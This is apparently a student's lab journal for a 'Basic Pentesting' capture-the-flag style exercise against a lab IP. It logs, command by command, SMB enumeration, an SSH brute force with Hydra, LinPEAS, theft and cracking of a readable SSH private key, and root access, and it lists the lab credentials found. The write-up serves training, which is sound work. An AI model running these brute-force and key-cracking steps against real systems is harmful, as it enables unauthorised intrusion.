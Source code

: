# Basic Pentesting – Lab Journal

Chronological log of my actions during Days 1–5.

---

## Day 1 – Setup & Methodology
- Reviewed pentesting phases: Recon → Enumeration → Exploitation → PrivEsc → Reporting.
- Set up toolset: `nmap`, `smbclient`, `hydra`, `john`, `linpeas`.
- Decided on evidence storage layout.

---

## Day 2 – Reconnaissance
**Target:** 10.10.28.38

### Nmap Scan
```bash
nmap -sC -sV -oN evidence/tool-output/01-nmap.txt 10.10.28.38
```
Open ports: 22 (SSH), 80 (HTTP), 139/445 (SMB)

### SMB Enumeration
```bash
smbclient //10.10.28.38/anonymous -N
```
Found `staff.txt` containing usernames: `jan`, `kay`

**Notes:**  
Tried web fuzzing with `ffuf` but got false positives.  
Decided to focus on SSH brute force.

---

## Day 3 – Initial Access
### Hydra SSH Brute Force
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.28.38
```
**Credentials found:** `jan : armando`

### SSH Access
```bash
ssh jan@10.10.28.38
```
Logged in successfully.

---

## Day 4 – Privilege Escalation
Manual checks with `sudo -l` and SUID search – no results.

### LinPEAS
```bash
./linpeas.sh > evidence/tool-output/linpeas-jan.txt
```
Found `/home/kay/.ssh/id_rsa` readable.

Copied key and cracked passphrase:
```bash
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
**Passphrase:** `beeswax`

### SSH as kay
```bash
ssh -i id_rsa kay@10.10.28.38
```
Found `/home/kay/pass.bak` containing root password.

```bash
sudo su
```
Root access obtained.

---

## Day 5 – Documentation
- Collected evidence from `/evidence/`.
- Wrote pentest report.
- Reflected on methodology.

**Lessons Learned:**
- SMB enumeration can reveal high-value usernames.
- Tool output must be verified manually.
- Privilege escalation often comes from weak key permissions.

